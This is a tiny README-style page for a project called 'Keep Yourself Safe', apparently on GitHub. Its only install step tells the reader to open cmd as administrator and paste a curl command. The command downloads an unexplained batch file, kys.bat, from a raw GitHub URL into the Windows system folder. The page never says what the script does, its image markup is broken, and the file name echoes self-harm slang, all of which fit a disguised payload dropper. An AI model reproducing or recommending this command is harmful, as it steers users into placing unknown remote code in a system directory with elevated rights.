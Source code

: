 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

# How to install
<p> You just need open cmd with admin perms, and paste next command
```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```
